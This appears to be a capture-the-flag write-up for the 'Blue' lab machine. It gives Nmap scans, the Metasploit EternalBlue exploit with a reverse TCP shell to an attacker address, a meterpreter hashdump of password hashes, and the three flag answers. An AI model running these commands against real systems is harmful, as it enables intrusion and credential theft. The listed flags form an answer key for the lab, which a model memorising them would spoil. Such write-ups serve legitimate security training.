



# Blue


## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10..154.106 -oGallPort
```


```bash
nmap -sC -sV -p135,139,445,3389,49152,49153,49154,49158,49160 -Pn 10.10.135.66 -oN targeted.txt
```


```bash
nmap --script="smb-vuln*" -p445 10.10.135.66 -oN vuln.txt
```



## Exploit

```bash
msfconsole -q
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.135.66
set LHOST 10.9.244.36
set payload windows/x64/shell/reverse_tcp
run
```




## Privilege Escalation

```bash
meterpreter > hashdump

meterpreter > shell
```




```shell
meterpreter > search -f flag*.txt /s
Found 3 results ...

Path
----
c:\Users\Jon\Documents\flag3.txt
c:\Windows\System32\config\flag2.txt
c:\flag1.txt
```

Flags:

```bash
Flag{access_the_machine}
Flag{sam_database_elevated_access}
Flag{admin_documents_can_be_valuable}
```


